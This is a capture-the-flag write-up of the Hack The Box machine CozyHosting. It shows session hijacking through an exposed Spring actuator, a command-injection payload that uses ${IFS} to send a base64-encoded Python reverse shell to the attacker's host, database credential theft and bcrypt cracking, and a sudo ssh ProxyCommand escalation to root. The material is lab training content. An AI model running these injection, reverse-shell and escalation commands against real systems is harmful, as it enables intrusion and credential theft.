




---
tags:
  - linux
---
# HTB: [CozyHosting](https://app.hackthebox.com/machines/CozyHosting)

## Enumeration

```console
$ sudo nmap -n -sV -sC -F $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-02 14:50 CST
Nmap scan report for 10.10.11.230
Host is up (0.11s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.95 seconds
```

I added the following lilne to `/etc/hosts`:

```text
## grep cozy /etc/hosts
10.10.11.230 cozyhosting.htb
```

`ffuf` directory scan:

```console
$ ffuf -ic -v -w ~/wordlists/seclists/Discovery/Web-Content/quickhits.txt -u http://cozyhosting.htb/FUZZ                
[...]

[Status: 200, Size: 634, Words: 1, Lines: 1, Duration: 129ms]
| URL | http://cozyhosting.htb/actuator
    * FUZZ: actuator

[Status: 500, Size: 73, Words: 1, Lines: 1, Duration: 125ms]
| URL | http://cozyhosting.htb/error
    * FUZZ: error

[Status: 200, Size: 4431, Words: 1718, Lines: 97, Duration: 294ms]
| URL | http://cozyhosting.htb/login
    * FUZZ: login

[Status: 200, Size: 634, Words: 1, Lines: 1, Duration: 145ms]
| URL | http://cozyhosting.htb/actuator
    * FUZZ: actuator

[Status: 200, Size: 4957, Words: 120, Lines: 1, Duration: 139ms]
| URL | http://cozyhosting.htb/actuator/env
    * FUZZ: actuator/env

[Status: 200, Size: 48, Words: 1, Lines: 1, Duration: 453ms]
| URL | http://cozyhosting.htb/actuator/sessions
    * FUZZ: actuator/sessions

[Status: 200, Size: 15, Words: 1, Lines: 1, Duration: 482ms]
| URL | http://cozyhosting.htb/actuator/health
    * FUZZ: actuator/health

[Status: 200, Size: 9938, Words: 108, Lines: 1, Duration: 468ms]
| URL | http://cozyhosting.htb/actuator/mappings
    * FUZZ: actuator/mappings

[Status: 200, Size: 127224, Words: 542, Lines: 1, Duration: 153ms]
| URL | http://cozyhosting.htb/actuator/beans
    * FUZZ: actuator/beans

:: Progress: [2565/2565] :: Job [1/1] :: 123 req/sec :: Duration: [0:00:13] :: Errors: 0 ::
```

Here's some interesting session info:

```text
$ curl http://cozyhosting.htb/actuator/sessions
{"467374C7202E01F43878D270BD2FC230":"kanderson"}
```

Maybe that's a session cookie?

## Exploitation

Using the session info above, I fire up Burp, turn on its proxy, and visit the `/admin` page. I replace the `JSESSIONID` value with the string I found above:



After forwarding the request with the correct cookie, I am able to view the `/admin` page as "K. Anderson":



The `/admin` page has a web form that wants a username and hostname:



We'll try `localhost` and `kanderson`:



The error string `Host key verification failed` looks like it came straight from `ssh`, so this form looks like it's passing user input straight to `ssh`.

After some experimenting, I learn that the form is doing _some_ sanitizing, e.g. it doesn't allow spaces, but I can work around that using `${IFS}`.

From the `bash(1)` manual:

```text
IFS    The Internal Field Separator that is used for word splitting after expansion and to split lines into words with the read builtin command.  The default value is ‘‘<space><tab><newline>’’.
```

So, I can pass a username value of `-V` (e.g. `--version`), and then whatever I want. Because I can't yet see `stdout` from my commands, I'll test by trying to ping back to my machine using the following POST parameters:

```text
host=localhost&username=-V${IFS};ping${IFS}10.10.14.20%0a#
```

Meanwhile on my machine, I see the `ping` traffic:

```console
$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
15:46:15.372366 IP cozyhosting.htb > 10.10.14.20: ICMP echo request, id 2, seq 1, length 64
15:46:15.372459 IP 10.10.14.20 > cozyhosting.htb: ICMP echo reply, id 2, seq 1, length 64
15:46:16.370807 IP cozyhosting.htb > 10.10.14.20: ICMP echo request, id 2, seq 2, length 64
15:46:16.370820 IP 10.10.14.20 > cozyhosting.htb: ICMP echo reply, id 2, seq 2, length 64
15:46:17.380762 IP cozyhosting.htb > 10.10.14.20: ICMP echo request, id 2, seq 3, length 64
15:46:17.380777 IP 10.10.14.20 > cozyhosting.htb: ICMP echo reply, id 2, seq 3, length 64
^C
```

Using <https://revshells.com>, I create a reverse shell command-line and `base64` encode it, and pass it to the web app via Burp with instructions to decode the string and execute it. The data of the POST request looks like this:

```text
host=localhost&username=-V;echo${IFS}"cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjIwIiw0NDMpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCJzaCIpJw=="|base64${IFS}-d|bash;echo${IFS}
```

With that, I am able to catch the shell:

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.11.230] 58940
$ id
id
uid=1001(app) gid=1001(app) groups=1001(app)
```

Checking the current working directory:

```console
$ ls -lh  
ls -lh
total 58M
-rw-r--r-- 1 root root 58M Aug 11 00:45 cloudhosting-0.0.1.jar
```

I want to took a look at that `jar` file. I could manipulate it on the target, but I'll transfer it to my machine for convenience.

On the target:

```console
$ python3 -m http.server 8888
python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```

And then I fetch it to my machine:

```console
$ wget ${t}:8888/cloudhosting-0.0.1.jar
--2023-10-02 16:30:24--  http://10.10.11.230:8888/cloudhosting-0.0.1.jar
Connecting to 10.10.11.230:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 60259688 (57M) [application/java-archive]
Saving to: ‘cloudhosting-0.0.1.jar’
[...]

2023-10-02 16:31:22 (1020 KB/s) - ‘cloudhosting-0.0.1.jar’ saved [60259688/60259688]
```

Now I'll unzip the `jar` and check it out:

```console
$ mkdir cozyjar && cd cozyjar
$ unzip -l ../cloudhosting-0.0.1.jar
Archive:  cloudhosting-0.0.1.jar
  Length      Date    Time    Name                                               
---------  ---------- -----   ----                                                                            
0  2023-08-10 23:22   META-INF/                                                  451  2023-08-10 23:22   META-INF/MANIFEST.MF
[...]
```

After some grepping around, I find database credentials the file `BOOT-INF/classes/application.properties`:

```text
spring.datasource.username=postgres                     
spring.datasource.password=Vg&nvz[...]
```

I check if there are any database services listening on the target:

```console
app@cozyhosting:/app$ netstat -lnp |grep 5432
netstat -lnp |grep 5432
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      -                   
unix  2      [ ACC ]     STREAM     LISTENING     22401    -                    /var/run/postgresql/.s.PGSQL.5432

```

Port 5232 is the PostgreSQL default port. I'm able to login using the credential discovered earlier:

```console
app@cozyhosting:/app$ psql -h localhost -U postgres -W
psql -h localhost -U postgres -W
Password: Vg&nvz[...]

psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=# \l

\l
WARNING: terminal is not fully functional
Press RETURN to continue 
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privil
eges   
-------------+----------+----------+-------------+-------------+----------------
-------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres    
      +
             |          |          |             |             | postgres=CTc/po
stgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres    
      +
             |          |          |             |             | postgres=CTc/po
stgres
(4 rows)

(END)

```

I use the `cozyhosting` database and take a look at the tables:

```text
postgres=# \c cozyhosting
\c cozyhosting
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".
cozyhosting=# \dt
\dt
WARNING: terminal is not fully functional
Press RETURN to continue 

         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)

(END)
```

And dump the info from the `users` tables:

```text
cozyhosting=# select * from users;
select * from users;
WARNING: terminal is not fully functional
Press RETURN to continue 

   name    |                           password                           | role
  
-----------+--------------------------------------------------------------+-----
--
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admi
n
(2 rows)

(END)
```

I'll load both hashes into `john`:

```console
$ /usr/sbin/john --wordlist=~/rockyou.txt cozyhashes
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (admin)
[...]
```

I know that there's one user on this system, likely to be the administrator:

```console
app@cozyhosting:/app$ ls /home    
ls /home
josh
```

So I'll check if Josh reused the same password for his shell login:

```console
$ ssh josh@$t
Warning: Permanently added '10.10.11.230' (ED25519) to the list of known hosts.
josh@10.10.11.230's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)

[...]

Last login: Tue Aug 29 09:03:34 2023 from 10.10.14.41
josh@cozyhosting:~$ 

josh@cozyhosting:~$ cat user.txt
dd510f[...]
```

## Privilege Escalation

Checking `sudo`:

```console
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

Easy enough:

```console
josh@cozyhosting:~$ sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
8acbc8[...]
```
